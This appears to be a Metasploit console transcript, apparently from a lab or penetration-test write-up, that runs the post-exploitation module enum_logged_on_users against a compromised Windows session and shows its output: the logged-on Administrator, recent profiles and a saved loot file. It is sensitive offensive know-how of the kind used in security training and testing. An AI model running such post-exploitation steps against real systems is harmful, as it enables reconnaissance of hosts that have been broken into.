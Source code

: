 ```
msf5 post(windows/gather/win_privs) > search enum_logged_on

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/windows/gather/enum_logged_on_users                   normal  No     Windows Gather Logged On User Enumeration (Registry)


msf5 post(windows/gather/win_privs) > use post/windows/gather/enum_logged_on_users
msf5 post(windows/gather/enum_logged_on_users) > show options

Module options (post/windows/gather/enum_logged_on_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently logged on users
   RECENT   true             yes       Enumerate Recently logged on users
   SESSION                   yes       The session to run this module on.

msf5 post(windows/gather/enum_logged_on_users) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/enum_logged_on_users) > run

[*] Running against session 1

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-21-2563855374-3215282501-1490390052-500  WIN-OMCNBKR66MN\Administrator


[+] Results saved in: /root/.msf4/loot/20230212174420_windows_post_10.0.29.158_host.users.activ_793533.txt

Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       %systemroot%\system32\config\systemprofile
 S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
 S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
 S-1-5-21-2563855374-3215282501-1490390052-500  C:\Users\Administrator


[*] Post module execution completed
```
